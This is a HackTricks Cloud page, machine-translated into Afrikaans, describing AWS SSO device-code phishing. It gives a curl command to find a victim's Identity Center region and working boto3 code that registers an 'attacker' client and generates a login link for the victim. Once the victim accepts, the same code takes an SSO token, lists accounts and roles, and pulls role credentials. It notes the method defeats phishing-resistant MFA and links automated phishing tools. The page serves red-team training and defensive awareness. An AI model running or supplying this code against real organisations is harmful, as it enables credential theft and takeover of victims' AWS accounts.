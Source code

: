 # AWS - Identiteitsentrum & SSO Ongeauthentiseerde Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Ekspert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Toestelkode Phishing

Aanvanklik voorgestel in [**hierdie blogpos**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), dit is moontlik om 'n **skakel** na 'n gebruiker te stuur wat AWS SSO gebruik, wat, indien die **gebruiker aanvaar**, die aanvaller in staat sal stel om 'n **token te verkry om die gebruiker na te doen** en toegang te verkry tot al die rolle wat die gebruiker kan toegang hê in die **Identiteitsentrum**.

Om hierdie aanval uit te voer, is die vereistes:

* Die slagoffer moet **Identiteitsentrum** gebruik
* Die aanvaller moet die **subdomein** ken wat deur die slagoffer gebruik word `<victimsub>.awsapps.com/start`

Net met die vorige inligting, sal die **aanvaller in staat wees om 'n skakel na die gebruiker te stuur** wat, indien **aanvaar**, die **aanvaller toegang tot die AWS gebruiker** rekening sal gee.

### Aanval

1. **Vind die subdomein**

Die eerste stap van die aanvaller is om uit te vind watter subdomein die slagoffer maatskappy in hul Identiteitsentrum gebruik. Dit kan gedoen word deur **OSINT** of **raai + BF** aangesien die meeste maatskappye hul naam of 'n variasie van hul naam hier sal gebruik.

Met hierdie inligting is dit moontlik om die streek te kry waar die Identiteitsentrum geconfigureer is met:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genereer die skakel vir die slagoffer & Stuur dit**

Voer die volgende kode uit om 'n AWS SSO aanmeldskakel te genereer sodat die slagoffer kan autentiseer.\
Vir die demo, voer hierdie kode in 'n python-konsol uit en verlaat dit nie, aangesien jy later 'n paar voorwerpe nodig sal hê om die token te verkry:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Stuur die gegenereerde skakel na die slagoffer met jou wonderlike sosiale ingenieursvaardighede!

3. **Wag totdat die slagoffer dit aanvaar**

As die slagoffer **reeds in AWS ingelog** was, sal hy net die toestemmings moet aanvaar, as hy nie was nie, sal hy moet **inlog en dan die toestemmings aanvaar**.\
So lyk die prompt vandag:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Kry SSO-toegangstoken**

As die slagoffer die prompt aanvaar het, voer hierdie kode uit om **'n SSO-token te genereer wat die gebruiker naboots**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Die SSO toegangstoken is **geldigheid vir 8h**.

5. **Imiteer die gebruiker**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing die onphishbare MFA

Dit is lekker om te weet dat die vorige aanval **werk selfs al word 'n "onphishbare MFA" (webAuth) gebruik**. Dit is omdat die vorige **werkstroom nooit die gebruikte OAuth-domein verlaat nie**. Nie soos in ander phishing-aanvalle waar die gebruiker die aanmeld-domein moet vervang nie, in die geval is die toestelkode werkstroom voorberei sodat 'n **kode bekend is aan 'n toestel** en die gebruiker kan aanmeld selfs op 'n ander masjien. As die prompt aanvaar word, kan die toestel, net deur **die aanvanklike kode te ken**, **akkrediteer** vir die gebruiker.

Vir meer inligting oor hierdie [**kyk hierdie pos**](https://mjg59.dreamwidth.org/62175.html).

### Outomatiese Gereedskap

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Verwysings

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

